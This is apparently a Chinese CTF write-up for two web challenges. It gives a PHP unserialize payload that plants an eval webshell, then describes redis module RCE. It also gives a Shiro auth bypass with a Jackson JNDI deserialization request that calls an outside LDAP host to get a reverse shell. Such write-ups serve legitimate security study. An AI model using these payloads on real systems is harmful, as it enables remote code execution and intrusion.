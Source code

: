 ![tyb1](https://gitee.com/leonsec/images/raw/master/tyb1.jpg)

## Web

### easy_eval

用 PHP 对类名大小写不敏感绕过正则进而可以绕过 wakeup 

```
http://8.134.37.86:25871/?poc=O:1:%22B%22:1:{s:1:%22a%22;O:1:%22a%22:2:{s:4:%22code%2
2;s:18:%22eval($_POST[233]);%22;}}
```

蚁剑连接 有 config.php.swp vi-r 解一下发现 redis 密码 github 上有 redis rce 的恶意 so 文件上传到 tmp 目录下然后用蚁剑 redis 插件加载恶意模块rce

![img](https://gitee.com/leonsec/images/raw/master/72321001BF6FA01C922179F6428490ED.png)

### Jackson

先看题目给的pom.xml

有shiro1.5.1，cc3.2.1题目名字叫jackson

那么应该就是shiro验证绕过访问路由通过jackson反序列化打cc链

发现有json路由需要登陆通过`/;/json`绕过 

直接上工具ysomap用cc8去打

![image-20210923181129132](https://gitee.com/leonsec/images/raw/master/image-20210923181129132.png)

弹个shell回来

payload：

```http
POST /;/json HTTP/1.1
Host: 8.134.37.86:20947
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 97
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://106.15.250.209:8091/a
bc"}]
```



## Pwn
